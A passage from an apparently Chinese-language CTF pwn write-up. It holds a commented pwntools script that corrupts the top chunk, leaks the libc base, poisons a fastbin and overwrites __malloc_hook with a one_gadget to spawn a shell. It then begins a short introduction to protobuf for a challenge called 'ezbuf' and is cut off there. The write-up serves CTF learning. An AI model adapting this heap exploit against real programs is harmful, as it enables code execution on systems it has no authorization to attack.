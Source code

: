 ```python
# 修改top chunk大小
add(0x68,b'aaaa')
edit(0x70,b'a'*0x68+p64(0xf91))

# 申请较大chunk使修改后的top chunk置入unsorted bin
add(0x1000,b'aaaa')

# 从unsorted bin中申请内存，填上8字节数据，show泄露bk指针内容，调试获取bk指针指向位置在main_arena的偏移
add(0x10,b'bbbbbbbb')
show()
p.recvuntil(b'bbbbbbbb')
libc_base = u64(p.recv(6).ljust(8,b'\x00'))-(1640+0x3C4B20)
print(hex(libc_base))

# 计算 malloc_hook 和 one_gadget 的地址
malloc_hook = libc_base + libc.sym["__malloc_hook"]
one_gadget = libc_base + one_gadget2

# 申请内存块
add(0x68,b'cccc')

# 删除刚刚申请的堆块，放入fastbin中
delete()

# 在fd指针位置写上malloc_hook-0x23的值，这个地址+8后刚好为0x7c，可以申请0x68大小的空间
edit(0x68,p64(malloc_hook-0x23))
add(0x68,b'dddd')

# 0x13字节后即为__malloc_hook的位置，写上one_gadget
add(0x68,b'a'*0x13+p64(one_gadget))

# 再次调用malloc就会执行__malloc_hook处的指令，即可获取shell
p.sendlineafter(b'choice:',b'1')
p.sendafter(b'content:',str(0x30).encode())
p.interactive()

```

## ezbuf
### protobuf
#### 简介
> 官方文档：https://protobuf.dev/overview/

Protobuf是一种与语言无关、与平台无关的可扩展机制，用于序列化结构化数据。它类似于 JSON，但体积更小、速度更快，并且会生成本机语言绑定。您只需定义一次数据的结构，然后就可以使用专门生成的源代码轻松地将结构化数据写入各种数据流并使用各种语言读取这些结构化数据。

它支持以下语言
- C++
- C#
- Java
- Kotlin
- Objective-C
- PHP
- Python
- Ruby
